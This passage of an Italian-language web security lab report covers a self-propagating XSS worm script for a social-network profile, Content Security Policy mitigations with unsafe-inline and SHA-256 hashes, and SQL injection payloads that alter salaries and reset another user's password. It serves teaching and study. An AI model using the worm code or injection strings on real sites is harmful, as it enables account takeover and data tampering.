Rispetto al punto precedente, adesso l'obiettivo è quello di fare in modo che l'attacco si autopropaghi anche ad altri utenti. Per fare questo, possiamo fare in modo che il nostro script abbia un ID e venga inserito in sé stesso tramite la funzione \texttt{getElementById} e codificato tramite \texttt{encodeURIComponent}.

\begin{lstlisting}
//self-propagation  
var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
var jsCode = document.getElementById("worm").innerHTML;
var tailTag = "</" + "script>";

// Put all the pieces together, and apply the URI encoding
var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

// Set the content of the descriptionfieldand accesslevel
var desc = "&description=Samyismyhero" + wormCode;
desc += "&accesslevel[description]=2";
\end{lstlisting}

Il resto è identico al punto precedente, se non ché viene inserita la variabile \texttt{desc} all'interno del campo contenente la descrizione del profilo.

Possiamo provare effettuando dapprima un accesso con un altro profilo (Alice), visitando Samy.

\begin{figure}[H]
  \centering
  \begin{minipage}{0.45\textwidth}
    \centering
    
\includegraphics[width=\textwidth]{../2.WebSecurity/img/VisitingSamy_Post.png}
    \caption*{Richiesta POST (Alice $\to$ Samy)}
  \end{minipage}\hfill
  \begin{minipage}{0.45\textwidth}
    \centering
    
\includegraphics[width=\textwidth]{../2.WebSecurity/img/Alice_Infected.png}
    \caption*{Profilo Infetto (Alice)}
  \end{minipage}
\end{figure}

E poi con un altro profilo ancora (Boby), visitando Alice.

\begin{figure}[H]
  \centering
  \begin{minipage}{0.45\textwidth}
    \centering
    
\includegraphics[width=\textwidth]{../2.WebSecurity/img/visitingAlice_post.png}
    \caption*{Richiesta POST (Boby $\to$ Alice)}
  \end{minipage}\hfill
  \begin{minipage}{0.45\textwidth}
    \centering
    
\includegraphics[width=\textwidth]{../2.WebSecurity/img/Boby_Infected.png}
    \caption*{Profilo Infetto (Boby)}
  \end{minipage}
\end{figure}

\subsection{Content-Security-Policy}

Al fine di evitare l'esecuzione di script arbitrari, è possibile utilizzare la Content Security Policy (CSP), un livello di sicurezza aggiuntivo che aiuta a rilevare e mitigare alcuni tipi di attacchi, tra cui XSS.

Di seguito vengono analizzati due scenari di configurazione:

\subsubsection{Scenario 1: Configurazione tramite Apache (example32b)}
In questo scenario, la policy viene definita direttamente nel file di configurazione di Apache (\texttt{apache\_csp\_example32.conf}). È stata utilizzata la direttiva \texttt{unsafe-inline} all'interno di \texttt{script-src}, che permette l'esecuzione di script inline nel sito.

\begin{figure}[H]
  \centering
  \begin{minipage}{0.45\textwidth}
    \centering
    
\includegraphics[width=\textwidth]{../2.WebSecurity/img/example32b_example32c_before.png}
    \caption*{Prima dell'applicazione CSP}
  \end{minipage}\hfill
  \begin{minipage}{0.45\textwidth}
    \centering
    
\includegraphics[width=\textwidth]{../2.WebSecurity/img/example32b_after.png}
    \caption*{Dopo (example32b - unsafe-inline)}
  \end{minipage}
\end{figure}

\subsubsection{Scenario 2: Configurazione granulare tramite Hash (example32c)}
Per una maggiore sicurezza, è preferibile evitare \texttt{unsafe-inline} e autorizzare solo script specifici tramite il loro hash SHA-256. In \texttt{CSPexamplec.php}, sono stati inseriti gli hash delle componenti identificate (come mostrato in \texttt{sha\_button.png}) per permetterne l'esecuzione in modo selettivo.

\begin{figure}[H]
  \centering
  \begin{minipage}{0.45\textwidth}
    \centering
    
\includegraphics[width=\textwidth]{../2.WebSecurity/img/sha_button.png}
    \caption*{Identificazione Hash (Console)}
  \end{minipage}\hfill
  \begin{minipage}{0.45\textwidth}
    \centering
    
\includegraphics[width=\textwidth]{../2.WebSecurity/img/example32c_after.png}
    \caption*{Dopo (example32c - SHA-256)}
  \end{minipage}
\end{figure}

\section{SQL Injection}

Un'altra categoria di attacchi ad applicazioni web è rappresentata dall'SQL Injection, ossia dalla possibilità di poter alterare campi di tabelle di un database nel web facendo ricorso alla sintassi SQL.

\subsection{Modify Table}

L'obiettivo dell'attacco è di:
\begin{enumerate}
  \item Aumentare il salario di un utente
  \item Diminuire il salario di un secondo utente, e cambiare la sua password.
\end{enumerate}

Il profilo si presenta in questo modo:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../2.WebSecurity/img/sql_aliceprofile_before.png}
  \caption{Profilo di Alice (Prima)}
\end{figure}

All'interno del sito è presente una funzione di modifica, che ci permette di poter modificare solo alcuni campi specifici. Tra questi, non è compreso il salario. Per fare questo, bisogna iniettare il campo del salario, e far sì che il sistema lo interpreti comunque come una query legittima.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../2.WebSecurity/img/sql_aliceprofile_edit.png}
  \caption{Modifica del profilo di Alice}
\end{figure}

In questo caso, inseriamo due query:

\begin{lstlisting}[language=SQL]
#1: Aumento di salario
test@example.com', Salary=999999, email='test@example.com

#2: diminuzione di stipendio e cambio di password a Boby
', Salary=1, Password = sha1('bobysucks') WHERE EID=20000 #
\end{lstlisting}

Per il primo caso, siccome si tratta di una modifica allo stesso profilo, possiamo inserire la modifica in maniera diretta all'interno del campo email. Mentre nel secondo caso, invece, viene aggiunta la condizione \texttt{WHERE} al fine di apportare modifiche anche ad altri profili. Si noti l'uso di \texttt{\#} per commentare il resto della query.

\begin{figure}[H]
  \centering
  \begin{minipage}{0.45\textwidth}
    \centering
